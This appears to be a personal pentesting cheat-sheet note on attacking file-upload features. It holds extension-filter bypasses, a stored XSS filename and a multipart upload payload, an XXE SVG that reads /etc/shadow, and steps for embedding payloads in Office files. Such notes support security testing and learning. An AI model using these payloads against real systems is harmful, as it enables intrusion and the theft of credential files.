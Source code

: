 1. try to upload is a .`txt`, `.svg` and `.xml`
2. test file extension
3. test content type
4. test file content
5. test file size => [[DoS]]

#### Bypass extension filters
- `zseano.php/.jpg`
- `zseano.html%0d%0a.jpg`
- 
||apache|IIS|
|---|---|---|
|extension|PHP, pHp, pht|.asp, .aspx , .asa, .cer|
||||

#### vulns from file upload

##### stored [[XSS]]
- `filename="58832_300x300.jpg<svg onload=confirm()>"`
```upload
------WebKitFormBoundaryoMZOWnpiPkiDc0yV 
Content-Disposition: form-data; name="oauth_application[logo_image_file]"; filename="testing1.html" 
Content-Type: text/html 

‰PNG 
<script>alert(0)</script>
```

##### [[XXE]]
1. SVG payload: save the following into file as an `.svg` file and upload it to the server
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE example [ <!ENTITY test SYSTEM "file:///etc/shadow"> ]> 
<svg width="500" height="500"> 
	<circle cx="50" cy="50" r="40" fill="blue" /> 
	<text font-size="16" x="0" y="16">&test;</text> 
</svg>
```
2. `.docx` , `.xlxs`, `.pptx` files
	1. unzip the document file![[Pasted image 20240129184215.png]]
	1. insert your payload into a `.xml` file 
	2. `cd example;zip -r new_example.docx *` 
##### [[RCE]]